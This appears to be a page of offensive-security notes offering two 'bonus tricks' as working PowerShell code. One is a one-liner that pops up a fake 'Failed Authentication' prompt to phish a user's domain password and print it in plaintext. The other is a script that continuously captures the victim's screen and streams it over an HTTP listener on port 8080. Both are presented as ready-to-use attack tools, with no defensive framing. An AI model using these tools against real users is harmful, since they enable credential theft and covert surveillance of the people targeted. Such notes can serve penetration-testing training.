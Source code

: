 # Bonus Tricks

### Keylogger prompt

This is a neat trick that can be used during desperate times. It will spawn a UI prompt that will ask for the user's domain credentials using environment variables to pull the username, then display the password in plaintext to the attacker console. 

From a CMD.exe prompt:

```powershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+[Environment]::UserName,[Environment]::UserDomainName); $cred.getnetworkcredential().password"
```

- from Sektor7 Privilege Escalation course

### Serving Display on HTTP

This script captures the content of the primary screen, converts it to a JPEG image, and serves it over an HTTP web server on port 8080. The script will continuously update the image and serve it as long as the HTTP listener is running.

```
Add-Type -AssemblyName System.Windows.Forms
Add-Type -AssemblyName System.Drawing

$listener = New-Object System.Net.HttpListener
$listener.Prefixes.Add("http://0.0.0.0:8080/")
$listener.Start()

Write-Host "Streaming server is running on http://0.0.0.0:8080/"

while ($listener.IsListening) {
    $context = $listener.GetContext()
    $response = $context.Response

    $stream = $response.OutputStream
    $imageStream = New-Object System.IO.MemoryStream

    $bitmap = New-Object System.Drawing.Bitmap([System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Width, [System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Height)
    $graphics = [System.Drawing.Graphics]::FromImage($bitmap)
    $graphics.CopyFromScreen([System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Location, [System.Drawing.Point]::Empty, [System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Size)

    $bitmap.Save($imageStream, [System.Drawing.Imaging.ImageFormat]::Jpeg)

    $response.ContentType = "image/jpeg"
    $response.ContentLength64 = $imageStream.Length

    $imageStream.WriteTo($stream)

    $imageStream.Dispose()
    $stream.Dispose()
}

$listener.Stop()

```
